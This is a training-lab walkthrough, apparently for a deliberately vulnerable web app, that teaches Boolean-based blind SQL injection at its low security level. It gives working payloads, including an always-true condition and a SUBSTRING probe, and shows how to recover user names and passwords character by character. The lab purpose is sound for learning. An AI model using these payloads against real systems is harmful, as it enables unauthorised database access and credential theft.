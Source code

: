 🧨 Blind SQL Injection – Low Security Level

### 🛠️ Objective:
Extract information from the database using Boolean-based blind SQL injection techniques.

---

### 🧭 Walkthrough

1. Navigate to the Blind SQL Injection page.
2. Enter a simple numeric ID, like:
```

1

```
✅ Returns a valid message like: `User ID exists in the database.`

3. Now test with an invalid value:
```

999

````
❌ Returns: `User ID is MISSING from the database.`

---

### 🧪 Testing for Injection

Try a payload that always evaluates to true:
```sql
1' OR 1=1#
````

✅ Output: `User ID exists in the database.`

Try a false condition:

```sql
1' AND 1=2#
```

❌ Output: `User ID is MISSING from the database.`

---

### 🧩 Extracting Data (Boolean-Based)

Try identifying the first letter of the username for `user_id=1`:

```sql
1' AND SUBSTRING(user,1,1)='a'#
```

Keep testing different letters until the response is true.

You can iterate character by character to extract:

* `user`
* `password`

---

### 🧩 Summary

* ✅ Boolean-based blind injection is possible
* ❌ No output, relies on behavior changes
* 🟢 Good for training blind SQLi logic

## ✅ Status

* ✅ Fully exploitable
* 🟢 Beginner-friendly (requires patience)
